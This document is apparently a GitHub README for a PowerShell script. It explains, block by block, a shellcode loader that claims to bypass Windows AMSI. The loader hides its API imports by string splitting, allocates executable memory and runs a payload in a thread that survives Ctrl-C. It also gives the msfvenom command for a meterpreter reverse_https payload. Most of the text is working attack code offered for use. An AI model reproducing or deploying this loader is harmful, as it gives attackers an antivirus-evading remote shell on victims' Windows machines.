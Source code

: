 # Powershell_Rev_Scripts
## General
This script bypasses Windows AMSI and executes shellcode using PowerShell. Even if the PowerShell window is given the command Ctrl-C, it will continue to run in the background. 
- Terminating the Process
    - Terminate the thread or PowerShell itself using Task Manager.
    - After the shell code finishes, it should cause the thread to terminate
        - Ex. Reverse Shell -> after the attacker terminates the session, the thread should also be terminated, and with it, PowerShell as well

## Usage(Msfvenom)
First, generate a payload, let's say a msfvenom x64 reverse https using this command  
*msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=443 -f csharp*
Take the output starting at the bytes and copy it into the code. Run a listener with the *ip* and run the code using PowerShell.


## Explanation
# 1.
```powershell
$pythonmods = @"
using System;
using System.Runtime.InteropServices;
...
```
A variable called pythonmods is created and is a string that holds multiple lines of code emphasized by the '@"' or here strings. It includes the System and System.Runtime.InteropServices namespace.

# 2.
```powershell
public class K2 {
    [DllImport("kernel32", EntryPoint="Get" + "Proc" + "Address")]
    public static extern IntPtr gpa(IntPtr hModule, string procName);
    [DllImport("kernel32", EntryPoint="Load" + "Library")]
    public static extern IntPtr ll(string name);
    [DllImport("kernel32", EntryPoint="Virtual" + "Protect")]
    public static extern bool vp(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```
This part of the code defines a class named K2, which calls Windows API functions using DllImport. 

The first import is "GetProcAddress," which is obfuscated by splitting into "Get" + "Proc" + "Address." 
- This import is used to get the address


The second import is "LoadLibrary" obfuscated by splitting into "Load" + "Library".
- This import is to load a dynamic link library, also known as a DLL, into memory


The third import is "VirtualProtect" obscured by splitting into "Virtual" + "Protect".
- This import is used to modify a region of memory's protection, ie, making it writable, executable, etc.

# 3.
```powershell
[DllImport("kernel32", SetLastError = true)]
    public static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out IntPtr lpThreadId
    );
```
This method creates a method called CreateThread, which executes code at the address specified by lpStartAddress

# 4.
```powershell
[DllImport("kernel32", EntryPoint="Virtual" + "Alloc")]
    public static extern IntPtr va(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

    public static void Copy(Byte[] source, Int32 startIndex, IntPtr destination, Int32 length) {
        Marshal.Copy(source, startIndex, destination, length);
    }
}
"@
```
The import is "VirtualAlloc" obfuscated by splitting into "Virtual" + "Alloc".
- This import is used to allocate memory for our shellcode


The helper function Copy is used to copy bytes to a specific memory location

# 5.
```powershell
Add-Type -TypeDefinition $pythonmods -Language CSharp
```
This tells PowerShell to add the type definition $pythonmods, specify the code as C#, and compile it. 

# 6.
```powershell
$pl = [Byte[]] (
    # Enter Payload Here
)
```
This part is where to add the payload, such as Msfvenom

# 7.
```powershell
$plSize = $pl.Length

$mem = [K2]::va([IntPtr]::Zero, [UIntPtr]::new($plSize), 0x3000, 0x40)

[K2]::Copy($pl, 0, $mem, $plSize)
```
First, calculate the size of the payload in bytes and store it as $plSize
Next, allocate memory for the payload using the VirtualAlloc function with the va method. Add the allocation type 0x3000, which means to have the memory region both reserved and committed.
- 0x1000 (MEM_COMMIT)
    - Flag used to allocate physical storage
- 0x2000 (MEM_RESERVE)
    - Flag that reserves memory space and saves it for future use
Add the protection flag 0x40, which indicates PAGE_EXECUTE_READWRITE, meaning the memory can be executed, read, and written to.
Next, copy the payload into the allocated memory.

# 8.
```powershell
$oldProtect = 0
$protectionResult = [K2]::vp($mem, [UIntPtr]::new($plSize), 0x40, [ref]$oldProtect)
```
Changes the allocated memory protection to 0x40, which allows the payload to execute as soon as it's copied into memory. The vp method is called to ensure the memory is executable.

# 9.
```powershell
$threadId = [IntPtr]::Zero
$hThread = [K2]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [ref]$threadId)
```
Creates a thread that executes at the allocated memory where the copied payload resides. 

# 10.
```powershell
while ($true) {
    Start-Sleep -Seconds 60
}
```
Infinite loop that waits 60 seconds between each iteration of the loop. Used to keep the current PowerShell window running.
